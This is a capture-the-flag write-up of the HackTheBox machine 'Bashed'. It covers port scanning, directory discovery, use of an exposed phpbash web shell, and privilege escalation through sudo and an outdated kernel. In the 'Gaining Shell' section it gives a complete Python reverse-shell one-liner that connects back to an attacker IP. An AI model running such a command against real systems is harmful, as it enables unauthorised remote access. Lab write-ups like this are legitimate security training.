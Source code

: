 ```yaml
---
title: Bashed
date: 2020-11-28 21:30:30 +/-TTTT
categories: [CTF, hackthebox]
tags: [phpbash, sudo, kernel]
---
```


![infocard](/assets/htb/bashed/infocard.png)

bashed is easy box 

## Enumeration

As always we start with Nmap.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-21 10:34 CET
  Nmap scan report for 10.10.10.68
  Host is up (0.073s latency).
  Not shown: 999 closed ports
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Arrexels Development Site

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 10.27 seconds
  ```
  
on the webpage, nothing interesting was found. next we find out directories using ffuf

![ffuf](/assets/htb/bashed/ffuf.png)

`/dev` looks interesting let's check out that

![dev](/assets/htb/bashed/dev.png)

when we navigate to `phpbash.php` we get shell.

![webshell](/assets/htb/bashed/webshell.png)

## Gaining Shell

we use python to get reverse shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

we get shell as www-data.on this box we have two user scriptmanager and arrexel,in arrexel home directory we found user flag

![user](/assets/htb/bashed/user.png)

## Gaining Root

we can run everything as scriptmanager using sudo. so lets first escalate privs to scriptmanager.

When we run `uname` with `-a` flag we see that machine is running outdate kernel version 4.4
after bit google search we found kernel exploit for this version. but gcc in not installed on box so we have to compile this on our machine and then transfer it to victim.

![root](/assets/htb/bashed/root.png)

